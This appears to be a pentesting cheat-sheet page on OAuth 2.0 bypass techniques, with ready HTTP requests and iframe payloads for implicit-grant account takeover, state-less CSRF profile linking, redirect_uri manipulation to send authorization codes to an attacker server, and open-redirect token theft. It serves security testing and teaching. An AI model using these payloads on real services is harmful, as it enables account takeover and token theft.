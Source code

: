 ```yaml
---
title: OAuth 2.0 Bypass
category: Web
order: 7
---
```


# Introduction

OAuth is a commonly used authorization framework that enables websites and web applications to request limited access to a user's account on another application. Crucially, OAuth allows the user to grant this access without exposing their login credentials to the requesting application.

# Vulnerabilities in the OAuth client application

Client applications will often use a reputable, battle-hardened OAuth service that is well protected against widely known exploits. However, their own side of the implementation may be less secure.

## Improper implementation of the implicit grant type

Once the OAuth 2.0 flow is completed and the token is assigned, the information is sent to the application (username, email and the token). We can bypass the authentication by changing the email and username of the request.

The client application will often submit this data to the server in a POST request and then assign the user a session cookie, effectively logging them in. This request is roughly equivalent to the form submission request that might be sent as part of a classic, password-based login. However, in this scenario, the server does not have any secrets or passwords to compare with the submitted data, which means that it is implicitly trusted. 

```
# Original Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"user@test.com",
    "username":"user",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

```
# Edited Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"another@test.com",
    "username":"another",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

## Flawed CSRF protection (no state parameter)

Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the `state` parameter.

The `state` parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow. This value is then passed back and forth between the client application and the OAuth service as a form of [CSRF token](https://portswigger.net/web-security/csrf/tokens) for the client application.

Since this state parameter is not available in the request we can link our profile media to an existing account by exploiting a CSRF attack:

```
# CSRF vulnerable request

GET /oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv HTTP/1.1
Host: app.test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://exploit.test.com/exploit
Cookie: session=4UxlhSNG2r19csEDsUySJwHtVPSyE4eE
Upgrade-Insecure-Requests: 1

```

Payload:

```
# index.html

<iframe src="https://app.test.com/oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv">
</iframe>
```

## Leaking authorization codes and access tokens

Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`.

In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate `/callback` endpoint (the original `redirect_uri`) to get access to the user's account.

```
# CSRF Vulnerable Request
# Modify the redirect_uri to a coontrolled server

GET /auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-server.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _session=7rn_lI1PoVH0bMKi3_Cmq; _session.legacy=7rn_lI1PoVH0bMKi3_Cmq
Upgrade-Insecure-Requests: 1
```

Payload:

```
#index.html

<iframe src="https://oauth-server.example.com/auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email">
</iframe>
```

##  Flawed redirect\_uri validation

`redirect_uri` parameter should be validated via white list, but sometimes is misconfigured and leads to flaws and vulnerabilities. Things to check:

* Try to remove or add arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
* Try to append extra values to the default `redirect_uri` parameter: `https://example.com &@foo.evil.com#@bar.evil.com/` .
* Try duplicate `redirect_uri` parameter.
* Begin with `localhost` : `http://localhost.evil.com/`.

## Stealing codes and access tokens via a proxy page

Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`.

Try to work out whether you can change the redirect_uri parameter to point to any other pages on a whitelisted domain. 

You can try to find a interesting subdirectory or use directory traversal tricks to supply any arbitrary path on the domain

```
https://client-app.com/oauth/callback/../../example/path
```

And if we have luck to find a open redirect, we can use it to steal the token.

```
https://oauth-server.example.com/auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=/oauth/callback/../../open/redirect&response_type=code&scope=openid%20profile%20email
```

## OpenID unprotected dynamic client registration

The OpenID specification outlines a standardized way of allowing client applications to register with the OpenID provider. If dynamic client registration is supported, the client application can register itself by sending a `POST` request to a dedicated `/registration` endpoint. The name of this endpoint is usually provided in the configuration file and documentation. 

The register route it is specified on openid configuration file `/.well-known/openid-configuration`.

```
POST /openid/register HTTP/1.1
Content-Type: application/json
Accept: application/json
Host: oauth-authorization-server.com
Authorization: Bearer ab12cd34ef56gh89

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256",
    …
}
```

# References

* [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
